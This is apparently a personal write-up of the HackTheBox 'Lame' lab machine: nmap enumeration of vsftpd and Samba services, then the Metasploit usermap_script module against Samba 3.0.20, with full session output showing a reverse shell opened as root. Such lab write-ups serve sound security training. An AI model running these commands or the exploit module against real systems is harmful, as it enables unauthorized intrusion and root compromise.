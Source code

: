 ```yaml
---
layout: page
title: HackTheBox Lame
---
```


HTB Lame is a starter level machine that can be easily exploited using metasploit and some googling. Samba SMB (server message block) is a vulnerable process that in this challenge, was used to get root access into the machine using a metasploit module. To exploit this box, you just need to know basic enumeration, linux services, and some googling.

### Enumeration 
Using ```zenmap``` or doing ```nmap -sC -sV 10.10.10.3``` will reveal a few things:

- Ports 21, 22, 139, and 445 are open
- Port 21 has version vsftpd 2.3.4
- We are working with a linux system.

Port 20 and 21 are used for FTP. A [previous writeup](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Legacy) of mine explains what part 139 and 445 are used for. 

Here is the report from zenmap and nmap scan (both basically give the same info):
```
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to [ip]
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

### Exploitation 
From doing previous challenges, I know that open SMB is very vulnerable. From the nmap/zenmap reports, we know that the version of SMB is smbd ```3.0.20 - Debian``` Looking up exploits for this version I ran across this [exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script) with the metasploit module ```exploit/multi/samba/usermap_script```

Here's how I used metasploit:
```
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > 
msf exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3

msf exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on [IP]
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Wn1LBLehVMy92DIb;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Wn1LBLehVMy92DIb\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened ([IP] -> 10.10.10.3:43149) at 2019-02-14 09:11:37 -0500

whoami
root
pwd
/
```

The root flag can be found in: ```/root/root.txt```
The user flag can be found in: ```/home/makis/user.txt```
